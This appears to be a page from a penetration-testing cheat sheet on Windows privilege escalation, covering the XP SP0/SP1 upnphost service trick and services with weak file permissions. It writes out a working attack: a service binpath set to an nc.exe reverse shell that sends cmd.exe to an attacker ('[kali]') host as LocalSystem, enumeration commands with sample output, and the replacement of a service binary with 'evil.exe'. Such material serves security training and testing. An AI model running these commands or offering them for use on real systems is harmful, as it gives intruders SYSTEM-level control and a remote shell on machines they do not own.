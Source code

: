 Windows SP0/SP1 UPNPHOST/SSDPSRV privilege escalation
* See https://sohvaxus.github.io/content/winxp-sp1-privesc.html
```powershell
cmd> sc qc upnphost
cmd> sc config upnphost binpath= "C:\temp\nc.exe [kali] 666 -e cmd.exe" # set binpath to nc payload
cmd> sc config upnphost obj= ".\LocalSystem" password= ""               # load as system with no pwd
cnd> sc config upnphost depend= ""                                # remove dependnecies (SSDPSRV)
cmd> net start upnphost                                                 # start service + catch reverse shell
```

### Services - Misconfigured Permissions

Enumerate misconfigured service permissions
* Exploit by replacing binary with malicious reverse shell binary.

Find running services we can write to (weak service permissions)
```powershell
# Accesschk (fast)
cmd> accesschk.exe /accepteula -uwcqv "Authenticated Users" *
cmd> accesschk.exe /accepteula -uwdqs Users c:\

# powershell (fast)
PS> Get-Acl
PS> Get-ChildItem | Get-Acl

# tasklist (slow)
cmd> tasklist /svc
```

Exploit
```
cmd> tasklist /svc
vulnservice.exe VulnService

# enum service
cmd> vulnservice
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: MEmuSVC
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\path\to\vulnservice.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : VulnService
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

# check service permissions
# reference: https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/cc753525(v=ws.10)?redirectedfrom=MSDN
cmd> icacls/cacls "C:\Program Files\path\to\vulnservice.exe"
^LOOK FOR FULL (F) WRITE (W)
cmd> accesschk.exe -ucqv vulnservice -accepteula
^LOOK FOR WRITE (W)

Everyone:(I)(F)
BUILTIN\Administrators:(I)(F)
BUILTIN\Users:(I)(F)
CHIMERA\steph:(I)(F)

# replace service binary with malicious binary, then restart computer
cmd> rename evil.exe vulnservice.exe
cmd> move vulnservice.exe "C:\Program Files\path\to\vulnservice.exe"
```